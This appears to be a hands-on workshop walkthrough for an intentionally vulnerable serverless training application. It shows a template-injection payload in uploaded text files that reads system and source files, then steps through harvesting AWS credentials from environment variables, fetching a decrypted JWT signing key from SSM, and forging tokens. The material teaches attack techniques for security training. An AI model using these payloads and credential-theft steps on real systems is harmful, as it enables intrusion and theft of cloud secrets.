 # **Serverless Attack**


### *  *

-------

#### Step 1:

* Access the [Serverless-Attack](https://serverless-attack.netlify.com) Application on the browser.

```commandline
https://serverless-attack.netlify.com
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

* Click on the `File-Upload` icon present in the header

* Click on the `Upload` button and upload the `readme.txt` file. It can be observed that the contents of the file is rendered on the UI

### *Note: It only accepts `.txt` files.*

### *What are the potential attacks based on this functionality???*

-------

#### Step 3:

* Similar to **Step 2**, upload `malicious-file.txt` and observe the output rendered on the UI

-------

#### Step 4:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```

-------

#### Step 5:

* Similar to **Step 2**, upload `read-etc-pwd.txt` and `read-py-files.txt`.

* By observing the results, we were able to fetch the source-code of application. By further investigation of the source-code, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.

-------

#### Step 6:

* Use `awscli` to fetch decrypted `JWT_PASS` from `SSM` 

### *Note: Ensure that `awscli` has been installed and the AWS `environment variables` have been set*

```commandline
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```commandline
echo "<JWT_PASS value>" | base64 --d > privkey
```

* Using the private key, create a public key using `openssl`

```commandline
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

-------

#### Step 7:

* Access [`jwt.io`](https://jwt.io) on the browser and paste the `JWT Token` fetched in **Step 2**.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with

--------

### Reading Material/References:
